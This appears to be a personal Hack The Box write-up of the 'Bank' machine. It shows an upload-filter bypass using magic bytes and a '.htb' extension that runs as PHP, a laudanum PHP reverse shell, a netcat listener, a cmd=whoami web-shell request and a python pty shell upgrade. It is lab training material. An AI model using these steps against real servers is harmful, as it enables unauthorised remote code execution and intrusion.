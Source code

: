Will test and see if there is a upload vulnerability exists or not.
┌──(root㉿kali)-[~/htb/bank]
└─# cp /usr/share/laudanum/php/php-reverse-shell.php .     

will change the ip and port 

And will also set a net-cat listener
┌──(root㉿kali)-[~]
└─# nc -lnvp 4444                    
listening on [any] 4444 ...

![[Pasted image 20230819105239.png]]

As you can see we got a error as we can only upload the image files
![[Pasted image 20230819105604.png]]

Even the Magic Bytes didn't worked and got the same error as above.
Yes the Magic Bytes worked when the .php is removed as .img is kept as it is
http://bank.htb/uploads/logo.png?cmd=whoami
When we go the site we were not able to run the query as it's a image
![[Pasted image 20230819111147.png]]

When we enumerate the reponse we were able to see that .htb extension will execute as php
Voilla we got want we want ^__^ 
![[Pasted image 20230819111359.png]]

We have upload the above file with .htb extension
![[Pasted image 20230819111627.png]]

![[Pasted image 20230819111714.png]]
We got the www-data at the end.

Let's run some command and see if we have nc on the box or not
We got the path /bin/nc when we run the command which nc
![[Pasted image 20230819111814.png]]

As the tab got hung up that's the indication that we got the shell 
![[Pasted image 20230819112023.png]]

Will run the python pty to get the full control from the dumb shell
python -c 'import pty;pty.spawn("/bin/bash")'
